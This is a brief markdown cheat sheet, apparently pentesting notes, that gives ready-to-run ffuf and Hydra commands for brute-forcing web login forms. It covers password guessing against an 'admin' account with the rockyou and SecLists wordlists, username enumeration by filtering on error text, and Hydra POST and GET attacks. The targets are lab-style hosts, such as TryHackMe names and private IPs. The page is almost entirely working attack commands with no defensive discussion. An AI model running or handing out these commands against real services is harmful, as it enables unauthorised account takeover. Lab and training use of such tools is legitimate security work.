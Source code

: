 # Tools
---
## Ffuf
* "Invalid username or password" and the HTTP Status Code is changed from 200 to 401:
```bash
$ ffuf -X POST -b 'COOKIE'  -H 'Content-Type: application/x-www-form-urlencoded' -u example.com/login -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-100.txt -d "username=admin&password=FUZZ" -fc 401

$ $ ffuf -X POST -H 'Content-Type: application/x-www-form-urlencoded' -u http://10.10.17.127/sUp3r-s3cr3t/authenticate.php -w "userid:USER" -w "credentials.txt:PASS" -d "username=USER&password=PASS" -fs 19
```


* "Invalid username" ffuf:
 ```bash 
$ ffuf -X POST -w /root/wordlists/names.txt -b " COOKIE " -d "username=FUZZ&password=test" -H 'Content-Type: application/x-www-form-urlencoded' -u example.com/login -fr "Invalid username" 
 ``` 


## Hydra
### POST
```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.104 http-post-form "/h3l105/wp-login.php:log=^USER^&pwd=^PASS^:ERROR: The password"
```

### GET
```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -f inferno.thm http-get /inferno
```